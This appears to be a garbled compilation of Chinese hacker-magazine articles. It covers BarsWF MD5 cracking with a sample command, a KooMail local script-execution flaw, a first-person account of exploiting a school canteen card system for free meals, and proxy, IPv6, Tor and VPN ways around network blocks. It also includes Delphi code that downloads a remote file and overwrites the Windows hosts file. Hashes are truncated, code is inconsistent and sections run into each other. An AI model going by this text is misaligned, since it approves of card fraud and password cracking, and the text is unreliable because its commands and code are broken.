



7 位数字在我的电脑上也很快地被解了，刚开始我还去别家搜了小半小时。事实上，用 can 破解这类 MD5 也容易，关键是要先把对应的规则找出来，然后开始爆破。

好了，让我们破解 6 位数字+小写字母的 MD5 看看。随便找一个数字转换成 32 位 MD5，比如 a58101，MD5 hash 值为 2660c8e0c5631d4cd74c9fd6323e5c5，接着我们设置命令行参数为：`Barswf -m 2660c8e0c5631d4cd74c9fd6323e5c -o a`。

编辑点评：暴丸，最平民化的 GPU 破解密码的过程，不过缺点就是，在破解某些复杂密码时特别慢，BarsWF 在显卡上跑的速度和 SHA1 的速度是一个量级。

#### 肉鸡变成 KooMail 邮件脚本代码跨域执行漏洞

### 从本文可以学到：
1. KooMail 漏洞测试
2. 脚本的利用

在开始测试 KooMail 软件的时候，我并没有把这个漏洞的危害看得那么重，以为它只算是一个普通的脚本执行漏洞。可是在阅读了“爱无言”提示后，发现这个漏洞引发的脚本代码执行漏洞还在本地权限级别上的，这个问题就严重了。




如图 2 所示，我们看到，这个时候 KooMail 将接收到的邮件保存到 html 文件格式保存在本地的邮件文件夹中；这也就意味着，KooMail 最好开的邮件是一个本地文件。

图 3 是我在虚拟机中执行测试时的截图；我们清楚地看到，此刻 KooMail 接收被植入的 boot.ini 文件内容给读取出来了！



…希望 KooMail 的开发者在看到本文时能够迅速对自己的产品进行更新，以防范用户的使用不便。最后，若有人用本文技术进行恶意行为，与作者和杂志无关。

#### 大学食堂刷出来的免费午餐

### 从本文您可以学到：
- 另类的 Crack 思维

我曾经写过一篇文章《我在食堂免费吃饭：刷卡机漏洞利用》，发布在我的网站上，但是有很多人反映看不太明白，现在，我就给大家详细说明一下。事情是这样的，从上篇文章中说来，我感觉某些学校饭卡系统的数据库设计上存在漏洞。但是如果我在食堂上办卡，想要获得饭卡数据库主机的权限，但这无论如何是别人帮我无法接近的，无法对饭卡数据库主机进行攻击。那今天我就要修改一下这种思路。

在这里先说一下实践的过程：到食堂门口，用饭卡靠近刷卡机，刷机会根据卡号显示出剩余金额，然后，卡可以被打开了，然后，最后金额再增加也就有关系了……

后来，我想应该怎么修补这个漏洞。我想，应该在数据库主机的数据处理程序上加上校验、首先判断登录请求来源、不能同时让两台读卡机请求同一张卡。但是学校用了让我“大跌眼镜”的方法：学校来了新校长，在我们的这个省级规范化学校中更新了设备，食堂刷卡机将全部更新成新的系统。

新的刷卡机的系统是内核级的，刷卡机读取了一个卡，一个卡对应一个序列号。于是，刷卡机小程序在一个槽中，一个卡将电磁卡中的信息都解密出来，开始在卡中更新……

直到后来发现：他们每次打开刷卡机后，必须再把机柜断电，停机维护，软件也带上了卡（造成保安状态），然后刷卡机就被重启，啊哈。他们终于简单地做出了一些改进，后来由于重新采购了一批卡，系统也又恢复成了之前一样。


#### 三两招轻松解决网络访问故障

### 从本文您可以学到：
- 一些另类的代理使用技巧



## 基础 | 特案专题
### 2010 第二季
#### 自己动手，利用 IPv6 解决网络故障

本文多篇文章来源整理，主要介绍如何通过 IPv6 相关方法绕过部分网络故障，并介绍 hosts、代理、浏览器等方案。






### 方法一：Web 代理
这个有两种方法，一个就是在线代理，在百度上敲入“在线代理”，回车后会得到很多的在线代理网站，点击进入后，输入你要进入的网站，就可以满足你的需求。

另一种则是使用代理服务器，例如 Free Web Proxy online proxy server 等，通过代理服务器访问目标站点。

### 方法二：手机浏览器
手机浏览器与普通浏览器不同，部分浏览器在访问时可绕过某些限制，因此可以作为辅助方式使用。

用户会访问到某个网页时，浏览器并没有直接向这个网站的主机服务器发出请求，而是通过手机浏览器的代理或中转服务进行访问，从而帮助页面加载。

这种方法并不稳定，技术也不是万能的，只要有问题，就会有相应的方法。但总归来说，对于某些网络故障、DNS 解析失效等情况，仍然可以尝试利用手机浏览器或代理方式解决。

Skyfire、UC 等，如图 5 所示。特别推荐这个因为是国产的，试用后效果不错（原文略）。

### 一、引言
随着 IPv4 的使用逐渐枯竭，IPv6 解决网络故障、绕过部分封锁的能力越来越受到关注。本文介绍一些常见的方式，包括 hosts 文件、浏览器代理以及脚本实现等。

### 二、思路
IPv4 的资源已经逐渐枯竭，IPv6 尚处于发展阶段。本文主要介绍如何通过 IPv6 相关能力配合系统设置与浏览器配置解决部分上网问题。

```bash
ping -6 ipv6.google.com
```

### 三、核心方法
常见方法包括修改 hosts 文件、利用 IPv6 相关服务、配置浏览器访问代理等。对于有些网站，IPv6 下的访问方式可能更稳定。

这里提供两个示例：
1. http://t.it/?
2. http://docs.google.com/Viewer?id=…

它是修改过你的浏览器访问网络教程，用手动替换 WINDOWS 文件夹中的 HOSTS 文件也可以。

### 四、实现
程序设计界面如图 1，这里我加了一个 MEMO 组件，以便更好地记录下载过程和各种地址。组件包含 HTTPInit、IdHTTP、IdFTP 等功能。

```pascal
procedure TMain.btndnDownClick(Sender: TObject);
var
  i: integer;
begin
  count := 0;
  aURL := 'http://t.to/y/1qdz';
  // 下载地址
  fn := 'hosts' + 文件名;
  n := 0;
  i := 1;
  afileSize := GetFileSize(aURL);
end;
```

本文还同时应用了多线程下载技术，以提高下载速度，线程的核心代码如下。

```pascal
procedure TDLThread.DownLoadFile;
var
  IdHTTP: TIdHTTP;
begin
  IdHTTP := TIdHTTP.Create(nil);
  IdHTTP.OnWorkBegin := frmMain.idHTTPWorkBegin;
  IdHTTP.OnWork := frmMain.idHTTPWork;
  IdHTTP.OnWorkEnd := frmMain.idHTTPWorkEnd;
  frmMain.idInistA := True; // 设置使程序有反应
  if FileExists(temfileName) then
    temfstream := TFileStream.Create(temfileName, fmOpenWrite)
  else
    temfstream := TFileStream.Create(temfileName, fmCreate);
  if 取消 then // 转储方式
  begin
    exit;
  end
  else
  begin
    IdHTTP.Request.ContentRangeStart := tstart;
    IdHTTP.Request.ContentRangeEnd := tlast;
    try
      IdHTTP.Get(URL, TStream); // 开始下载
      frmMain.mmLog.Lines.Add('正在下载: ' + temfileName + '...');
    finally
      // TStream.Free;
      FreeAndNil(temfstream);
      IdHTTP.Disconnect;
    end;
  end;
end;

procedure TDLThread.Execute;
begin
  if aURL <> '' then
  begin
    // synchronize(DownLoadFile)
    DownLoadFile;
  end
  else
    exit;
  inc(fcount);
  if fcount = frmMain.n then // 当 count==n 时代表全部下载成功
  begin
    //ShowMessage('全部下载成功!');
    frmMain.mmLog.Lines.Add('正在合并临时文件...');
    frmMain.AddFile;
  end;
end;
```

核心线程主要负责下载工作。下载完成后通过文件流操作合并成一个 HOSTS 文件，这也是多线程下载技术的基本流程。

第二个比较重要的过程就是替换 HOSTS 文件了，还是用代码说话，附简单注释。

```pascal
procedure TFrmMain.btnCmdModifyClick(Sender: TObject);
var
  a: array[0..MAX_PATH] of Char;
  num: UINT;
  oldpath, oldpath2: string;
begin
  oldpath := ExtractFilePath(Application.Name); // 这个绝对路径
  if FileExists(oldpath + 'hosts') then
  begin
    num := GetSystemDirectory(a, MAX_PATH);
    //ShowMessage(a);
    pathstr := string(a) + '\drivers\etc\';
    frmMain.mrlog.Lines.Add('正在替换 hosts 文件...');
    CopyFile(PChar(hostpath + 'Hosts'), PChar(hostpath + 'Hosts.bak'), True);
    frmMain.mrlog.Lines.Add('Host替换成功!');
  end;

  if CopyFile(PChar(oldpath + 'Hosts'), PChar(hostpath + 'hosts'), False) then
  begin
    frmMain.mrlog.Lines.Add('合并完成... 开始写攻击之力吧!');
    frmMain.mrlog.Lines.Add('1分钟1IP对某些站的比较大?');
  end
  else
    ShowMessage('请更新HOSTS文件，如在找到以RG反应反馈!');
end;
```

两个重要的过程已经完工，编译运行测试，一切顺利，使用自己专属的代理工具畅游网络吧。编译后程序运行界面如图 2。

### 四、总结
基于 IPv6 的现象空间还有很多，利用掌控的编程语言，能够使很多事情化繁为简。关于更多 IPv6 应用和 DELPHI 编程方面的问题，可以到黑坛论坛与我交流。


#### Ubuntu 中 Firefox 使用 Tor 代理上网

### 本篇可以学习到：
1. Ubuntu 下 Tor 的配置和使用方法
2. 如何使 Firefox 通过 Tor 进行浏览

大家习惯了 Windows 下面的 VPN、在线代理等方法访问一些网站，其实在 Ubuntu 的平台，只要设置好之后，还是比 Windows 下更加容易的，可谓一劳永逸。今天我就给大家介绍一下如何在 Ubuntu 下进行上网设置。

**系统环境**
- Ubuntu 11.04
- Firefox 3.6.3

### 一、安装 Tor
安装 Tor 之前需要先添加“搭档”和“源”，因为官方的源中是没有 Tor 的。

#### 1. 添加密钥
在桌面上的“应用程序”→“附件”→“终端”下输入下面的命令，导入密钥：

```bash
sudo gpg --keyserver keys.gnupg.net --recv 8BB0DB00
sudo gpg --export A3C4F0F979CAA22C0DBA5F12EEBCE8B9D00
sudo apt-key add -
```

#### 2. 添加软件源
在桌面上的“系统”→“系统管理”→“软件源”，找到“其他软件”，然后点击“添加”，如图 1。


## 基础｜特案专题

### 2010 第二季

deb http://mirror.netcologne.de/torproject.org karmic main

### 3、进行下载

在“终端”下输入下面两个命令就可以了。

```bash
sudo apt-get update
sudo apt-get install tor-geoipdb vidalia
```

### 二、设置 Tor 和 Vidalia

#### 1、获取 Vidalia 使用国外桥

使用 Gmail 发到“bridges@torproject.org”，信件标题为“get bridges”，马上就可以得到包含 bridges 的回信。

> [This is an automated message, please do not reply.]  
> Here are your bridge relays:  
> bridge 213.49.144.172:9001  
> bridge 89.202.15.44:443  
> bridge 92.225.217.51:8000

#### 2、配置 Vidalia

打开“应用程序”→“互联网”，找到“Vidalia”，如图2。然后在“Vidalia”的界面中找到“设置”→“网络”→“我的 ISP 阻止了对 Tor 网络的连接”，接着将邮件中的地址添加上去，如图3。

### 三、安装 AutoProxy 插件

如图所示先安装好了软件，但是为了在 Firefox 中使用方便，我们还需要安装一个插件，名称为“autoproxy”，下载地址：http://addons.mozilla.org/zh-CN/firefox/addon/11009。打开网页之后，点击“添加到 Firefox”的按钮就可以开始安装了，如图4。

### 四、开始我们的旅程

“autoproxy”安装完之后就可以浏览网站了，默认它是启用“自动模式”。点击右下角的“autoproxy”可以进行简单的配置，各位根据自己的需要进行设置。

#### 海外生活让我认识了 VPN

从本文中你可以学习到：
- VPN 的基础知识
- 如何设置以及使用 VPN

### 一、什么是 VPN

VPN 的英文全称是“Virtual Private Network”，翻译过来就是“虚拟专用网络”。顾名思义，虚拟专用网络可以把互联网虚拟成企业内部专线。

### 二、VPN 为什么能解决我们提到的问题

VPN 的传输主要采用隧道技术、加解密技术、密钥管理技术和使用者与设备身份认证等手段来保障传输链路的专用和畅通，确保传输数据的专有和不被盗用，等于架设了一条专线，如图1。

假设个人用户想要访问公司服务器，但中间却存在防火墙等防护设备。防护设施能够检测通过的数据包，可以检测个人用户发送的数据包是否包含某个特定信息，以检测个人用户所要访问的 IP 地址。基于此便可以用盗用用户的身份请求，达到访问控制的目的。

